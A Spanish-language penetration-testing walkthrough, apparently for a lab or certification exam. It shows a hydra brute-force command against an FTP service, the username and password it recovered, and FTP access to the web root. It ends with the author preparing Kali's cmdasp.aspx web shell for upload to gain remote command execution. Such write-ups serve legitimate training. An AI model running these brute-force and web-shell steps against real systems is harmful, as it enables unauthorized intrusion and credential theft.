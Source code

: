 Si la tratamos de pegar en la web vemos que nos muestra "Acceso denegado"

---

Ahora seguimos enumerando para encontrar más informacion, ahora escanearemos al puerto `21`

Asi que realizaremos un ataque de fuerza bruta al protocolo `ftp` con hydra

Como no tenemos ni usuario ni contraseña le haremos fuerza bruta a ambos parámetros:

```python
hydra -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords-1000000.txt ftp://192.168.100.69
```

Esperamos unos momentos y vemos que nos muestra el usuario y contraseña

```java
[21][ftp] host: 192.168.100.69   login: info   password: PolniyPizdec0211
```

 asi que trataremos de conectarnos via `ftp` con estas credenciales 

```python
ftp 1.2.3.4
```

Ingresamos las credenciales y estaremos dentro, si hacemos un `dir` veremos la información del protocolo `ftp`

Vemos que tenemos un `index.html`, hay que fijarnos mucho en este archivo ya que en este tipo de examenes o entornos suele representar a la página inicial de la página web 

Vemos que se encuentran cargados dos archivos adicionales que son :
- aspnet_client
- welcome.png

En este punto trataremos de subir archivos al servidor `ftp` y poder verlos desde el navegador 

Aqui es donde entra en juego el archivo malicioso que al momento de subirlo nos permita obtener acceso remoto al servidor 
En Kali Linux por defecto suele venir la ruta  `cmdasp.aspx` que representa a una cmd maliciosa guardada dentro del sistema y lo podemos encontrar de la siguiente manera :

```bash 
find / -name cmdasp.aspx 2>/dev/null
```

Esto en el examen tambien deberia de estar o sino tambien lo podemos crear con **msfvenom**

Una vez encontrado el archivo algo como esto 

```bash
/usr/share/webshells/aspx/cmdasp.aspx
```

Nos la copiamos en nuestro directorio actual de trabajo, yo en este caso me la copie en Escritorio

```bash
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

Ahora con esto ya tendremos el `cmdasp.aspx` dentro de nuestro Kali 
